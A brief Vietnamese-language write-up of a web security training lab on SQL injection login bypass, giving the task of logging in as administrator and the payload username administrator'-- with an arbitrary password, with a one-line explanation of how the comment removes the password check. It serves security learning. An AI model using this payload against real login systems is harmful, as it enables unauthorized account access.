

# Lab: SQL injection vulnerability allowing login bypass

## Yêu cầu

Log in vào ứng dụng với user `administrator`.

Clue: thử khai thác tại tính năng đăng nhập trước.

## Cách làm

Payload đăng nhập:

```text
username: administrator'--
password: 123 (nhập bất kỳ)
```

Khi comment phần còn lại của câu lệnh SQL bằng `--`, điều kiện kiểm tra password bị bỏ qua và có thể bypass login.


